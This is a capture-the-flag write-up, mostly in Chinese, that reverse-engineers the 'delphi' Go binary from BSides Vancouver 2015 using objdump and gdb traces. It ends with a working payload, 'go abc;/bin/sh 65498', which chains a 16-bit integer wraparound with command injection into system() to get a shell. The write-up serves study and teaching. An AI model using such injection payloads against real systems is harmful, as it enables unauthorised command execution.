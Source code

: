 # Delphi

> Challenge link: Nope
>
> Category: reverse

[delphi](https://github.com/ctfs/write-ups-2015/blob/master/bsides-vancouver-ctf-2015/ownable/delphi/delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b)

[libtwenty.so](https://github.com/ctfs/write-ups-2015/blob/master/bsides-vancouver-ctf-2015/ownable/delphi/libtwenty.so-4a3918b2efd9fbdfd20eeb8fa51ca76bc42eb2f2)

## Observation

因為有額外給的 Library ，所以要執行(分析)的時候要搭配 `LD_LIBRARY_PATH=.` 將當前資料夾指定給 Library 路徑

```bash
$ LD_LIBRARY_PATH=. ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
I'm thinking of something big, metal, and orange. Go!
> test
Who's that?
> deadbeef
Who's that?
>
```

### file

```bash
$ file ./delphi 
./delphi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70886b932f383987896e371d422ab8a4089bd148, not stripped
```

### go binary

Objdump 後發現 `main.main` ，是 go 的 binary 檔，其中在 main package 中有兩個比較特別的 function

- main.doTheMagic
- main._Cfunc_check_answer (cgo 的 function)

``` bash
$ objdump -d delphi | grep '.*main.*>:'
0000000000400df0 <__libc_start_main@plt>:
0000000000401280 <main.main>:
0000000000401c30 <main.doTheMagic>:
0000000000401df0 <main.init>:
00000000004021c0 <main._Cfunc_CString>:
0000000000402230 <main._Cfunc_check_answer>:
0000000000402270 <main._Cfunc_free>:
0000000000411b20 <runtime.main>:
00000000004295b0 <main>:
```

## Solution

### Input

一開始先找看看輸入的地方

``` bash
$ go tool objdump delphi | grep '.*main\.go.*Scan'
        main.go:34      0x4016ee        bd30b74f00                      MOVL $bufio.ScanLines.f(SB), BP
        main.go:35      0x401755        e816b80200                      CALL bufio.(*Scanner).Scan(SB)
```

```bash
   0x401747 <main.main+1223>:   mov    QWORD PTR [rsp+0x48],rax
   0x40174c <main.main+1228>:   mov    rbx,QWORD PTR [rsp+0x48]
   0x401751 <main.main+1233>:   mov    QWORD PTR [rsp],rbx
=> 0x401755 <main.main+1237>:   call   0x42cf70 <bufio.(*Scanner).Scan>
   0x40175a <main.main+1242>:   movzx  rbx,BYTE PTR [rsp+0x8]
   0x401760 <main.main+1248>:   cmp    bl,0x0
   0x401763 <main.main+1251>:   je     0x4018b1 <main.main+1585>
   0x401769 <main.main+1257>:   mov    rdi,QWORD PTR [rsp+0x48]
Guessed arguments:
arg[0]: 0xc208028130 --> 0x0 
arg[1]: 0x7ffff7e20df0 --> 0xc208020000 --> 0x0 
```

輸入 deadbeef 後繼續觀察

發現後面出現一段有趣的比較，此時的 `rdx` 是輸入的長度，`rax` 是 'go' 的長度

由底下 `jl` 和 `jb` 可知 **輸入不能小於 2 **

```bash
RAX: 0x2 
RBX: 0x4d7f60 --> 0x4d7f70 --> 0x6f67 ('go')
RCX: 0x66656562 ('beef')
RDX: 0x8 
RSI: 0x4d7f70 --> 0x6f67 ('go')
RDI: 0xc208000260 ("deadbeef")
RBP: 0x7ffff7fb3000 --> 0x781d28 (0x00007ffff7fb3000)
RSP: 0x7ffff7e20dc0 --> 0xc208013000 ("deadbeef\n")
[-------------------------------------code-------------------------------------]
   0x401939 <main.main+1721>:   mov    rax,QWORD PTR [rbx+0x8]
   0x40193d <main.main+1725>:   mov    QWORD PTR [rsp+0x90],rdx
   0x401945 <main.main+1733>:   mov    QWORD PTR [rsp+0xb0],rax
=> 0x40194d <main.main+1741>:   cmp    rdx,rax
   0x401950 <main.main+1744>:   jl     0x401baa <main.main+2346>
   0x401956 <main.main+1750>:   cmp    rdx,rax
   0x401959 <main.main+1753>:   jb     0x401bb2 <main.main+2354>
   0x40195f <main.main+1759>:   mov    QWORD PTR [rsp+0xb8],rdi
```

再往下看，出現了 `runtime.eqstring` 

比較的目標是 輸入 ( 'deadbeef' ) 以及 'go' 的前兩個 byte (0x2)

```bash
   0x401986 <main.main+1798>:   mov    QWORD PTR [rsp+0x18],rax
=> 0x40198b <main.main+1803>:   call   0x425600 <runtime.eqstring>
   0x401990 <main.main+1808>:   movzx  rbx,BYTE PTR [rsp+0x20]
[------------------------------------stack-------------------------------------]
0000| 0x7ffff7e20dc0 --> 0xc208000260 ("deadbeef")
0008| 0x7ffff7e20dc8 --> 0x2 
0016| 0x7ffff7e20dd0 --> 0x4d7f70 --> 0x6f67 ('go')
0024| 0x7ffff7e20dd8 --> 0x2
```

實際測試一下，果然輸入開頭是 go 的話就會出現不一樣的結果

```bash
LD_LIBRARY_PATH=. ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
I'm thinking of something big, metal, and orange. Go!
> goabcd
Sneaky, sneaky. Go where? How fast?
> go
Sneaky, sneaky. Go where? How fast?
> abcd
Who's that?
> 
```

比對正確後就會進入 `main.doTheMagic` 了

```bash
   0x401a0d <main.main+1933>:   mov    QWORD PTR [rsp+0x8],rax
=> 0x401a12 <main.main+1938>:   call   0x401c30 <main.doTheMagic>
   0x401a17 <main.main+1943>:   lea    rbx,ds:0x4d4060
```

### doTheMagic

繼續往下看，發現 `strings.Split` ，以空格( ' ' )作為切割點

繼續執行後就結束了

```bash
   0x401c77 <main.doTheMagic+71>:       mov    rdi,rbp
   0x401c7a <main.doTheMagic+74>:       movs   QWORD PTR es:[rdi],QWORD PTR ds:[rsi]
   0x401c7c <main.doTheMagic+76>:       movs   QWORD PTR es:[rdi],QWORD PTR ds:[rsi]
=> 0x401c7e <main.doTheMagic+78>:       call   0x44a480 <strings.Split>
   0x401c83 <main.doTheMagic+83>:       mov    rdx,QWORD PTR [rsp+0x20]
   0x401c88 <main.doTheMagic+88>:       mov    rax,QWORD PTR [rsp+0x28]
   0x401c8d <main.doTheMagic+93>:       mov    rcx,QWORD PTR [rsp+0x30]
   0x401c92 <main.doTheMagic+98>:       mov    QWORD PTR [rsp+0x68],rdx
Guessed arguments:
arg[0]: 0x7ffff7e20d40 --> 0x8 
arg[1]: 0x4d37d0 --> 0x20 (' ')
```

另外在後面可以找到 `main._Cfunc_check_answer`

```bash
401dbf:       e8 6c 04 00 00          callq  402230 <main._Cfunc_check_answer>
```

我猜可能輸入要用空格分成好幾段，因此我在 `main._Cfunc_check_answer` 設斷點，並填入不同數目的輸入測試，最後發現需要輸入共三段就會經過斷點，輸入格式如下

```
go <something> <something>
```

### check_answer

往下看發現他利用 `cgocall` 呼叫了 `0x400f80`

```bash
=> 0x402249 <main._Cfunc_check_answer+25>:      mov    eax,0x400f80
   0x40224e <main._Cfunc_check_answer+30>:      mov    QWORD PTR [rsp],rax
   0x402252 <main._Cfunc_check_answer+34>:      lea    rax,[rsp+0x18]
   0x402257 <main._Cfunc_check_answer+39>:      mov    QWORD PTR [rsp+0x8],rax
   0x40225c <main._Cfunc_check_answer+44>:      call   0x404da0 <runtime.cgocall>
```

```bash
gdb-peda$ x/5gi 0x400f80
   0x400f80 <_cgo_de3376964270_Cfunc_check_answer>:     mov    rsi,QWORD PTR [rdi+0x8]
   0x400f84 <_cgo_de3376964270_Cfunc_check_answer+4>:   mov    edi,DWORD PTR [rdi]
   0x400f86 <_cgo_de3376964270_Cfunc_check_answer+6>:   jmp    0x400de0 <check_answer@plt>
   0x400f8b:    nop    DWORD PTR [rax+rax*1+0x0]
   0x400f90 <_cgo_de3376964270_Cfunc_free>:     mov    rdi,QWORD PTR [rdi]
```

要追進去的話，建議是在 `0x400f80` 設斷點，接著 continue 過去，避免中途沒跟到

最後會回到 check_answer

``` bash
=> 0x7ffff7bd5758 <check_answer>:       push   rbp
   0x7ffff7bd5759 <check_answer+1>:     mov    rbp,rsp
   0x7ffff7bd575c <check_answer+4>:     sub    rsp,0xa0
   0x7ffff7bd5763 <check_answer+11>:    mov    DWORD PTR [rbp-0x94],edi
   0x7ffff7bd5769 <check_answer+17>:    mov    QWORD PTR [rbp-0xa0],rsi
```

往下追會出現一個有趣的東西

此時的 `eax` 是最後一段輸入的值，因為我輸入的是 `go abc def` ，所以這邊的 eax 因爲轉不出來所以變成 0

add 後變成 42，由此可知 [rbp-0x2] 原始值應該是 42

```bash
   0x7ffff7bd5789 <check_answer+49>:    mov    eax,DWORD PTR [rbp-0x94]
=> 0x7ffff7bd578f <check_answer+55>:    add    WORD PTR [rbp-0x2],ax
   0x7ffff7bd5793 <check_answer+59>:    movzx  eax,WORD PTR [rbp-0x2]
   0x7ffff7bd5797 <check_answer+63>:    cmp    eax,0x4
   0x7ffff7bd579a <check_answer+66>:    ja     0x7ffff7bd57ed <check_answer+149>
```

如果比較符合後跳過去，會出現 `strcat` 以及 `system` 

在 stack 中可以看到 ’echo' 以及第二段輸入 'abc' ，看來是合成 'echo abc' 以後利用 system 執行

```bash
=> 0x7ffff7bd57d7 <check_answer+127>:   call   0x7ffff7bd5650 <strcat@plt>
   0x7ffff7bd57dc <check_answer+132>:   lea    rax,[rbp-0x90]
   0x7ffff7bd57e3 <check_answer+139>:   mov    rdi,rax
   0x7ffff7bd57e6 <check_answer+142>:   call   0x7ffff7bd5630 <system@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe4f0 --> 0x788170 --> 0x636261 ('abc')
0008| 0x7fffffffe4f8 --> 0x0 
0016| 0x7fffffffe500 --> 0x206f686365 ('echo ')
```

綜合上述，我們應該要使 42 + {number} >= 4

這裡有個有趣的地方，他在取值的時候是使用 WORD (2 bytes) 來取，當這裡的值超過 WORD 上限時就會歸零，我們可以利用這個點來達成上述的條件

```
number = 2^16 - 42 + eax
```

### command injection

前面有看到組合的 'echo abc' ，此時可以利用 `;` 來進行 command injection 來拿到 shell

```bash
$ LD_LIBRARY_PATH=. ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
I'm thinking of something big, metal, and orange. Go!
> go abc;/bin/sh 65498				# 2^16 - 42 + 4 (eax = 4)
abc
$ ls
delphi  libtwenty.so  peda-session-delphi.txt
$ 
```